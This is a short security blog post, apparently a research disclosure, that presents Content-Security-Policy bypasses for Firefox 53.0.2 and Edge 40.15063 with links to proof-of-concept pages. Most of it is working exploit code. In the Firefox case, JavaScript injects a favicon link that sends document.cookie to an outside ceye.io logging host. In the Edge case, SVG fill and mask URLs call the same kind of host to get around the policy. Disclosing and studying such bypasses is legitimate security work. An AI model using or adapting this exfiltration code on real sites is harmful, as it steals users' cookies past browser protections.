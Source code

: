 ```yaml
---
layout: post
title: Firefox53 &amp; Edge40 Browsers CSP Bypass 
---
```

#### Firefox 53.0.2 Version

- PoC: [http://server.n0tr00t.com/firefox/ffcsp53.0.2.php](http://server.n0tr00t.com/firefox/ffcsp53.0.2.php)
- PiC: [https://ws1.sinaimg.cn/large/c334041bgy1ffeb2a6xfej20ph09nacs.jpg](https://ws1.sinaimg.cn/large/c334041bgy1ffeb2a6xfej20ph09nacs.jpg)
	
CSP RULE:

    header("Content-Security-Policy: default-src 'none' 'unsafe-inline';");

Bypass:

	x = (new Date()).valueOf();
	document.cookie = "csp=" + escape("SECUREKEY@^#2!@#") + ";";
		
	ffn0t= document.head.appendChild(document.createElement("link"));
	ffn0t.rel = "shortcut icon";
	ffn0t.href = "http://" + x + ".shortcuticon.ff.vqn3j8.ceye.io/?" + document.cookie;

#### Microsoft Edge 40.15063 Version

- PoC: [http://server.n0tr00t.com/test/edge3.php](http://server.n0tr00t.com/test/edge3.php)
- PiC: [https://ws1.sinaimg.cn/large/c334041bgy1ffexx3u68oj20kq08rgma.jpg](https://ws1.sinaimg.cn/large/c334041bgy1ffexx3u68oj20kq08rgma.jpg)

CSP RULE:

	header("Content-Security-Policy: default-src 'none' 'unsafe-inline';");

Bypass:

    <script>
    (function(){
        var x = document.body.appendChild(document.createElement("svg"));
        x.setAttribute("id", "n0tr00t");
        x.setAttribute("xmlns", "http://www.w3.org/2000/svg");

        /* fill & mask */
        var svgNS = "http://www.w3.org/2000/svg";
        var n0tr00t = document.getElementById('n0tr00t');
        var fillurl = "url(http://csp32test2.edge.vqn3j8.ceye.io/fillbypass)";
        var maskurl = "url(http://csp32test2.edge.vqn3j8.ceye.io/maskbypass)";
        var nodeRect = n0tr00t.appendChild(document.createElementNS(svgNS, "rect"));
        nodeRect.setAttribute("height", 200);
        nodeRect.setAttribute("width", 200);
        nodeRect.setAttribute("fill", fillurl);
        nodeRect.setAttribute("stroke","#000000");
        var nodeRect2 = n0tr00t.appendChild(document.createElementNS(svgNS, "rect"));
        nodeRect2.setAttribute("height", 200);
        nodeRect2.setAttribute("width", 200);
        nodeRect2.setAttribute("fill", "green");
        nodeRect2.setAttribute("mask", maskurl);
        nodeRect2.setAttribute("stroke","#000000");
    })()
    </script>